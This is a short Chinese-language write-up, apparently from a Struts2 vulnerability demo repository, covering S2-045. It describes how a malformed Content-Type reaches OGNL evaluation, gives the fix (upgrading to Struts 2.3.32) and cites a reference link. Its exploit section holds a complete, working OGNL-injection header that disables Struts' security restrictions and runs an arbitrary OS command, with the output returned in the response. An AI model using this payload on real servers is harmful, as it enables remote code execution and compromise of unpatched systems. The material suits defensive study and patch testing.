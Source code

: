 ### 一 漏洞描述
传入非法的Content-type会引发JakartaMultiPartRequest类报错，并调用buildErrorMessage()方法处理错误信息。  
该方法调用findText()方法时传入了detailMessage参数，而detailMessage参数将Content-type的值拼接了进来。

### 二 漏洞利用
```
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='calc').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}.multipart/form-data;
```

### 三 漏洞修复
升级到 Struts 2.3.32

> 参考链接
> https://github.com/xhycccc/Struts2-Vuln-Demo/tree/master/s2-045
